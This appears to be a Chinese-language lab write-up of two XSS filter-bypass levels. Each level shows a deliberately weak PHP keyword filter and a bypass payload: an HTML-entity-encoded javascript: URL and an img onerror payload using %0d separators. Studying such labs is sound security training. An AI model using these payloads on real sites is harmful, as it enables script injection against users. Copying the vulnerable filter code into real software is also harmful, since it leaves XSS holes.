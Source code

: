 #### filter1:替换关键字以及url检测
思路:html实体编码绕过关键字,使用注释符后加http://绕过校验(或者使用伪协议支持%0d容错性换行解析)
payload1:```javas&#x63ript:alert(1)//http://www.baidu.com```
payload2:```javas&#x63ript:%0dhttp://www.baidu.com%0dalert(1)```
```
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=index.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```
![](pics/11.png)

#### filte2 替换关键字
思路:过滤了script可以用on事件，过滤了空格可以用%0d%0a绕过
payload:```<img%0Dsrc=1%0Donerror=alert(1)>```
```
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
```
![](pics/10.png)